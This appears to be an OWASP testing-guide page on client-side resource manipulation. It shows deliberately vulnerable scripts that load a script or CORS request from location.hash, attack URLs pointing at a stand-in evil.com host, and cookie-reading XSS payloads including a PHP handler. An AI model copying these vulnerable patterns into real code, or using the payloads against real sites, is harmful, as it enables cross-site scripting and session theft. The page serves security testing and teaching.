 # Testing for Client Side Resource Manipulation

|ID          |
|------------|
|WSTG-CLNT-06|

## Summary

A client side resource manipulation vulnerability is an input validation flaw. It occurs when an application accepts user-controlled input that specifies the path of a resource such as the source of an iframe, JavaScript, applet, or the handler of an XMLHttpRequest. This vulnerability consists of the ability to control the URLs that link to some resources present in a web page. The impact of this vulnerability varies, and it is usually adopted to conduct XSS attacks. This vulnerability makes it is possible to interfere with the expected application's behavior by causing it to load and render malicious objects.

The following JavaScript code shows a possible vulnerable script in which an attacker is able to control the `location.hash` (source) which reaches the attribute `src` of a script element. This particular case leads to a XSS attack as external JavaScript could be injected.

```html
<script>
    var d=document.createElement("script");
    if(location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

An attacker could target a victim by causing them to visit this URL:

`www.victim.com/#http://evil.com/js.js`

Where `js.js` contains:

```js
alert(document.cookie)
```

This would cause the alert to pop up on the victim's browser.

A more damaging scenario involves the possibility of controlling the URL called in a CORS request. Since CORS allows the target resource to be accessible by the requesting domain through a header-based approach, the attacker may ask the target page to load malicious content from its own website.

Here is an example of a vulnerable page:

```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```

The `location.hash` is controlled by user input and is used for requesting an external resource, which will then be reflected through the construct `innerHTML`. An attacker could ask a victim to visit the following URL:

`www.victim.com/\#http://evil.com/html.html`

With the payload handler:

```html
http://evil.com/html.html
----
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```

## How to Test

To manually check for this type of vulnerability, we must identify whether the application employs inputs without correctly validating them. If so, these inputs are under the control of the user and could be used to specify external resources. Since there are many resources that could be included in the application (such as images, video, objects, css, and iframes), the client side scripts that handle the associated URLs should be investigated for potential issues.

The following table shows possible injection points (sink) that should be checked:

| Resource Type   | Tag/Method                                | Sink   |
| --------------- | ----------------------------------------- | ------ |
| Frame           | iframe                                    | src    |
| Link            | a                                         | href   |
| AJAX Request    | `xhr.open(method, <i>\[url\]</i>, true);` | URL    |
| CSS             | link                                      | href   |
| Image           | img                                       | src    |
| Object          | object                                    | data   |
| Script          | script                                    | src    |

The most interesting ones are those that allow to an attacker to include client side code (for example JavaScript) that could lead to XSS vulnerabilities.
